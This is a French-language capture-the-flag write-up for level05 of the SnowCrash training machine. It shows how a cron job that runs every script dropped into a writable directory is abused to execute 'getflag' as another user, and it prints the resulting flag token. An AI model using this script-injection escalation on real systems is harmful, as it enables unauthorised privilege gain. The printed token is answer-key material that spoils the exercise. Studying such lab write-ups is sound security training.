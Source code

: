 # level05

1) Information reçue a la connexion

```bash
You have new mail.
```

2) Analyse de la mailbox

```bash
level05@SnowCrash:~$ ls -l /var/mail/level05
-rw-r--r--+ 1 root mail 58 Oct 7 08:14 /var/mail/level05
```

* Le mailbox de `level05` contient une entrée cron indiquant que `/usr/sbin/openarenaserver` est exécuté toutes les 2 minutes en tant que l'utilisateur `flag05`.
```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

* On verifie Le binaire `/usr/sbin/openarenaserver`

Il exécute **tous** les scripts présents dans `/opt/openarenaserver/` puis supprime chaque script après exécution.
```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

3) Exploitation pour récupérer le token :

* On crée `/opt/openarenaserver/script.sh` contenant `getflag > /tmp/token` et rends le fichier exécutable.

Lors de la prochaine exécution du service, `getflag` a été lancé en tant que `flag05` et a écrit le token dans `/tmp/token`.

```bash
level05@SnowCrash:/$ cat /tmp/token
Check flag.Here is your token : ...
```

4) Token découvert :

Le token est `viuaaale9huek52boumoomioc`.
